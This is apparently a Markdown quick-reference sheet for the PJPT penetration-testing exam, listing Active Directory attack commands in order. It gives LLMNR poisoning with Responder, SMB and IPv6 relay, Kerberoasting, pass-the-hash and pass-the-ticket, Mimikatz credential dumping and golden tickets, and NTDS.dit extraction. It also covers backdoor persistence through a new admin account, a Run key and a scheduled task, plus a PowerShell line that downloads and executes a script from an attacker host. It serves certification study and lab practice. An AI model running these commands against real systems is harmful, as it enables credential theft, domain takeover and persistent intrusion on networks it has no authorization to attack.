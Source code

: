# 🚀 PJPT Quick Reference Commands

## Initial Recon & Enumeration

```bash
# Network discovery
nmap -sn 10.10.10.0/24
nmap -sC -sV -O -p- --min-rate=1000 10.10.10.10

# DNS enumeration
dnsrecon -d domain.local -r 10.10.10.0/24
dnsenum domain.local

# SMB enumeration
smbclient -L //10.10.10.10
enum4linux -a 10.10.10.10
crackmapexec smb 10.10.10.0/24
```

## LLMNR/NBT-NS Poisoning

```bash
# Start Responder
sudo responder -I eth0 -rdwv

# Crack captured hashes
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## SMB Relay Attack

```bash
# Check for SMB signing
nmap --script=smb2-security-mode -p445 10.10.10.0/24

# Turn off SMB in Responder
nano /etc/responder/Responder.conf  # Set SMB = Off

# Start relay 
# you might need to use impacket-ntlmrelayx
impacket-ntlmrelayx -tf targets.txt -smb2support -i

# Connect to interactive shell
nc 127.0.0.1 11000
```

## Kerberoasting

```bash
# Get SPNs
GetUserSPNs.py domain.local/user:password -dc-ip 10.10.10.10 -request

# Crack tickets
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

## Pass the Hash/Ticket

```bash
# Pass the Hash
crackmapexec smb 10.10.10.10 -u Administrator -H <NTLM_HASH>
psexec.py domain.local/Administrator@10.10.10.10 -hashes :<NTLM_HASH>

# Pass the Ticket
getTGT.py domain.local/user:password
export KRB5CCNAME=user.ccache
psexec.py -k -no-pass domain.local/user@target.domain.local
```

## Token Impersonation

```powershell
# In Meterpreter
load incognito
list_tokens -u
impersonate_token "DOMAIN\\Administrator"
```

## Mimikatz Quick Commands

```powershell
# Dump credentials
privilege::debug
sekurlsa::logonpasswords

# Dump tickets
sekurlsa::tickets

# Export tickets
kerberos::list /export

# Golden ticket
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:<HASH> /id:500
```

## NTDS.dit Extraction

```bash
# Remote with secretsdump
secretsdump.py domain.local/Administrator:password@10.10.10.10

# Local extraction
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

## Persistence

```powershell
# Add user
net user hacker Password123! /add
net localgroup administrators hacker /add

# Registry persistence
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\backdoor.exe"

# Scheduled task
schtasks /create /tn "Updater" /tr "C:\Windows\backdoor.exe" /sc onlogon
```

## IPv6 Attacks

```bash
# mitm6 attack
mitm6 -d domain.local

# In another terminal
ntlmrelayx.py -6 -wh attacker-wpad -t smb://10.10.10.10 -l loot
```

## Quick Win Commands

```bash
# Check for null sessions
rpcclient -U "" -N 10.10.10.10

# LDAP anonymous bind
ldapsearch -x -h 10.10.10.10 -s base

# Check for MS17-010
nmap -p445 --script smb-vuln-ms17-010 10.10.10.10

# Quick domain user enum
crackmapexec smb 10.10.10.10 -u guest -p '' --users
```

## File Transfer

```powershell
# PowerShell download
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/script.ps1')

# Certutil
certutil -urlcache -split -f http://10.10.10.10/file.exe file.exe

# SMB server
# Attacker: python3 -m impacket.smbserver share . -smb2support
# Target: copy \\10.10.10.10\share\file.exe .
```

## Remember!
- Always check SMB signing before relay attacks
- Try password = username for service accounts
- Check for PrintNightmare, ZeroLogon if newer systems
- Document everything - screenshots are your friend! 